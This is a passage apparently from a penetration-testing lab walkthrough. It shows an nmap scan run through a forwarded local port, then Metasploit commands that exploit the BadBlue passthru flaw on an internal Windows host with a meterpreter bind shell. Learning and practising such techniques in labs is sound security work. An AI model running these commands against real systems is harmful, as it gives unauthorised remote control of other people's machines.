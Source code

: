 <img src="fwd.png" width=55% height="auto"><br>
 - **nmap -sV -sS -p 1234 localhost (don't close Meta, use another terminal)<br>**
<img src="fwdnmap.png" width=70% height="auto"><br>
### Successfull! We scanned the internal network Target!! Now we will exploit it with Metasploit.<br>
 - **use exploit/windows/http/badblue_passthru<br>**
 - **set PAYLOAD windows/meterpreter/bind_tcp<br>**
 - **set RHOSTS 10.3.24.33 (ip target 2)<br>**
 - **set LPORT 3333<br>**
 - **exploit<br>**